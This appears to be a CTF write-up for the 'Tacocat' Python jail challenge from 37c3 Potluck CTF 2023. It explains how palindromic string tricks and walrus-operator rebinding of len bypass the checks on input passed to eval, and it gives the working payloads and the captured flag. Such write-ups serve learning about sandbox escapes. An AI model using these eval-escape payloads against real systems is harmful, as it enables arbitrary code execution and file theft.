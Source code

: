 ```yaml
---
title: Tacocat
date: 2024-01-05T22:50:30+01:00
description: Writeup for Tacocat [37c3 Potluckctf 2023]
author: zenbassi
tags:
- misc
- python escape
draft: false
---
```

___

## Challenge Description

This is an upsolve, so I don't really remember, but it went something like _We
had no good ideas but we figured a python escape is always welcome_.

## Intuition

The code for the jail is given to us and albeit, very short:

```python
while True:
    x = input("palindrome? ")
    assert "#" not in x, "comments are bad"
    assert all(ord(i) < 128 for i in x), "ascii only kthx"
    assert x == x[::-1], "not a palindrome"
    assert len(x) < 36, "palindromes can't be more than 35 characters long, this is a well known fact."
    assert sum(x.encode()) % 256 == 69, "not nice!"
    eval(x)
```

So, we're free to give a string to `eval`, which will _evaluate_ any valid python expression.
This can give us the flag, or a shell, but the catch is that:
* the input must be a palindrome
* we cannot use comments
* sum of ASCII values for each character in the input has to be equal to 69 (modulo 256)

I had multiple ideas, including using string formatting to insert comments,
using tuples which are evaluated element by element and to use triple quotes
strings as a form of comment. Sadly I had no success with any of them, but I'm
happy to see that some of my ideas were in a solution by `pspaul` @
[FluxFingers](https://fluxfingers.net/), which I we will discuss below.

## Solution

The solution consists of multiple inputs formatted as such:

```
      +------------------------------------------------------+
      |                                                      |
      |              +-----------------------+               |
      |              |                       |               |
      v              v                       v               v
'''{buffer}',{reverse(expression)},''',{expression},'{reverse(buffer)}'''
|                                    | |       ^  | |                 | ^
|          this is a string          | |       |  | | this is a char  | |
+------------------------------------+ +-------+--+ +-------------^---+ |
                                               |                  |     |
     this is the evaluated expression ---------+                  |     |
                                                                  |     |
                   this is used to reach the desired sum ---------+     |
                                                                        |
                                                                        |
                                                                        |
                                                         empty string --+

eg. which would print 42 when evaluated:

eval("'''?',))24(tnirp(,''',(print(42)),'?'''")

This is a bit too long to be valid, but you get the point :P
```

Looking at it, this is a very neat way of abusing the greedy way in which
strings are evaluated in python - from left to right.

Now, the length restriction is problematic. We can bypass it if we assign
to `len` another function that processes a string or a list and returns a
values smaller than 36. Such functions are `all` or `any`. To achieve the
substitution we can utilise the `walrus operator` introduced in python 3.8 [^1].
The following two lines bypass the length check:

```python
'''k',)yna=:y(,''',(y:=any),'k'''
'''t',)y=:nel(,''',(len:=y),'t'''
```

Lastly we can just read the flag with:

```python
'''{}',))(tupni(lave,''',eval(input()),'{}'''
```

and then supplying something such as:

```python
print(open("flag.txt").read())
```

### Flag

`POTLUCK{1_@c7u@11y_do_n07_kn0w_th3_f1@g}`

## References

[^1]: https://docs.python.org/3/whatsnew/3.8.html
